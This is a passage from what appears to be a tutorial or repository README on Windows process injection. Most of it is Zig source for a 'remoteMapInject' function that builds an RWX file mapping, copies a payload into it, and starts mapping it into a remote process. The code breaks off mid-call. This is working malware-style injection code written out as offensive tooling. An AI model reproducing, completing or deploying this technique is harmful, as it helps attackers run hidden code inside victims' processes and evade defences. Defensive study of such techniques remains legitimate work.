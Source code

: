 4. **Memory Alignment**: The function may have specific alignment requirements for the base address and size parameters.

5. **Error Handling**: Always check return values and use `GetLastError()` for detailed error information when the function fails.

## remoteMapInject Function

The core function that implements remote mapping injection:

```zig
fn remoteMapInject(hProcess: HANDLE, pPayload: []const u8, ppAddress: *?PVOID) bool {
    var bState: bool = true;
    var hFile: ?HANDLE = null;
    var pMapLocalAddress: ?PVOID = null;
    var pMapRemoteAddress: ?PVOID = null;

    // Create a file mapping handle with RWX memory permissions
    hFile = CreateFileMappingW(
        INVALID_HANDLE_VALUE,
        null,
        PAGE_EXECUTE_READWRITE,
        0,
        @intCast(pPayload.len),
        null,
    );

    if (hFile == null) {
        print("\t[!] CreateFileMapping Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        return bState;
    }

    // Map the view locally for writing
    pMapLocalAddress = MapViewOfFile(
        hFile.?,
        FILE_MAP_WRITE,
        0,
        0,
        pPayload.len,
    );

    if (pMapLocalAddress == null) {
        print("\t[!] MapViewOfFile Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        if (hFile) |handle| _ = CloseHandle(handle);
        return bState;
    }

    print("\t[+] Local Mapping Address : 0x{X}\n", .{@intFromPtr(pMapLocalAddress.?)});

    // Copy payload to local mapping
    const dest = @as([*]u8, @ptrCast(pMapLocalAddress.?));
    @memcpy(dest[0..pPayload.len], pPayload);

    // Map the same file into the remote process with execute permissions
    pMapRemoteAddress = MapViewOfFileNuma2(
        hFile.?,
        hProcess,
        0,
        null,
```